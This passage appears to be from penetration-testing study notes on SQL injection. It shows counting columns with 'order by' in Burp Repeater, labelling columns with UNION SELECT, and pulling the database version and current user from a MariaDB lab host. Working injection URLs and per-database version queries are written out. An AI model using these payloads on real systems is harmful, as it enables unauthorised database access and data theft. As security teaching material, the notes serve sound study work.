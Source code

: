 Example:

```html
http://192.168.216.10/debug.php?id=1 order by 1
```

We can use Burp Suite's repeater tool to simplify this process a little.  First, initiate an instance of the query in the Proxy tab, then send it to Repeater.  Manually increment the value of the `order by` option and search for 'error' in the response.  Once you know the iteration that produces the response, you know that there are N-1 columns.

#### Column Identification

The UNION statement can be used to label the columns and figure out what columns are and are not being displayed.  This is accomplished by using UNION to specify a second query that displays literal strings in each column.  We can use numbers 1,2,3,... to number the columns and see which number doesn't appear.

**NOTE:  For some DB's, the data types need to match in each column, so you can't insert an integer into a column that's text.  To convert the numbers to text, just enclose them in single quotes.**

```sql
select id, name, text FROM feedback where id=1 union all select 1,2,3;
-- Note, you may need to wrap the literal numbers in single quotes '1','2','3'
```

### Extracting Data

These commands are specific to MariaDB but other formats offer similar functionality with different syntaxes.

#### Initial Extraction

We can use one of the columns and our UNION command to print interesting information.  In this case, the 3rd column is used to print the information because it's the largest.  

- Example: Get the version of MariaDB

```sql
http://192.168.216.10/debug.php?id=1 union all select 1, 2, @@version

-- Options
--Oracle 	SELECT banner FROM v$version
--			SELECT version FROM v$instance
--Microsoft 	SELECT @@version
--PostgreSQL 	SELECT version()
--MySQL 	SELECT @@version 
--H2		SELECT H2VERSION() FROM DUAL
```

- Example: Get the current database user

```sql
http://192.168.216.10/debug.php?id=1 union all select 1, 2, user()

-- Options
user()	--Returns the user of MariaDB
```
